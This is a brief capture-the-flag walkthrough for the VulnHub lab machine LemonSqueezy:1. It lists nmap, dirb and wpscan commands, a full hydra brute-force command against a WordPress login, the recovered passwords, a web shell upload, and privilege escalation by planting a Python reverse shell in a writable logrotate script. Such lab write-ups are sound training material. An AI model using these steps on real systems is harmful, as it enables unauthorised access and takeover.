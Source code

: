 


# LemonSqueezy : 1 Walkthrough 

**VulnHub Link:** [LemonSqueezy:1](https://www.vulnhub.com/entry/lemonsqueezy-1,473/)
**Difficulty:** Easy
**Release Date:** 26 Apr 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```
```bash
wpscan --url <url> -e ap,u ---> orange,lemon users found
```

## 3.Brute Forcing
```bash
hydra lemonsqueezy -L usernames.txt -P /usr/share/wordlists/rockyou.txt http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&rememberme=forever&wp-submit=Log+In&redirect_to=http%3A%2F%2Flemonsqueezy%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=Lost your password?"
```
orange's password found ---> ginger

wordpress --> orange's password at phpmyadmin found ---> n0t1n@w0rdl1st!

in phpmyadmin ---> lemon user's password changed into lemon and hashed with MD5


## 4.Privilege Escalation

at wordpress, shell uploaded ---> user flag captured
```bash
find / -type f -writable 2>/dev/null ---> /etc/legrotate.d/logrotate
```
modified via python reverse shell script and pspy64 uploaded 

then root shell opened ----> root flag captured.

